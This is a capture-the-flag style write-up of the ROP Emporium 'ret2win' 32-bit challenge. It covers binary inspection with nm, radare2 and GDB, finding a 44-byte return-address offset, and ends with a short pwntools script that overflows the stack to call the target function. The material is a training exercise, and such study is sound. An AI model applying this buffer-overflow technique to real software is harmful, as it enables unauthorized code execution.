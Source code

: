 ```yaml
---
layout: post
title: ROP Emporium Challenge 0: ret2win (32 bits)
excerpt_separator: <!--more-->
---
```


Description: *Locate a method within the binary that you want to call and do so by overwriting a saved return address on the stack.*
<!--more-->

# ret2win32

Link: https://ropemporium.com/challenge/ret2win.html


--------------------------


## 1. Studying the binary

List functions with:

```
nm ret2win32 | grep 't'
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_1.jpg)

Or with radare:

```
r2 ret2win32
aaaa
afl
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_2.jpg)

Then we can disassembly this function using again radare:

```
r2 ret2win32
aaaa
s sym.ret2win
pdf
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_3.jpg)

We can disassembly the main function too:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_4.jpg)


## 2. Calculating EIP overwrite offset

I will open GDB with GEF script:

```
gdb -q ./ret2win32
```

Using Python we create characters to test when it crashes:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_5.jpg)


With 45 we overwrite only 1 byte, so the offset is 44:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_6.jpg)

Note: It will be the same offset for all the 32 bits binaries of Rop Emporium.


## 3. Calling ret2win

We can find the function address with:

```
objdump -D ret2win32 | grep ret2win
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_7.jpg)

This address can be found also using gdb (*info functions*).

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_8.jpg)



## 4. Final exploit

The exploit code is then:

```
from pwn import *

context(arch='i386', os='linux')
p = process('./ret2win32')

junk =    "A"*44
ret2win = 0x08048659
rop = junk + p32(ret2win)
p.recvuntil("> ")
p.send(rop)
p.interactive()
```

The result:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_9.jpg)